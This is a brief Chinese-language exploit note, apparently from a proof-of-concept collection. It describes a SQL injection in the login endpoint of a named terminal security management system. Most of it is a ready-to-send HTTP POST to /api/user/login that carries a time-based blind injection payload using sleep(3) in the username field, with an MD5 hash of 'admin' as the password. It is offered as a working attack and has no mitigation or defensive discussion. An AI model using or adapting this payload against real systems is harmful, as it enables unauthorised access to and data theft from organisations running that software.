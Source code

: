 # 某信景云终端安全管理系统 login SQL注入漏洞 

## 某信景云终端安全管理系统 login SQL注入漏洞 
```
POST /api/user/login

captcha=&password=21232f297a57a5a743894a0e4a801fc3&username=admin'and(select*from(select+sleep(3))a)='
```

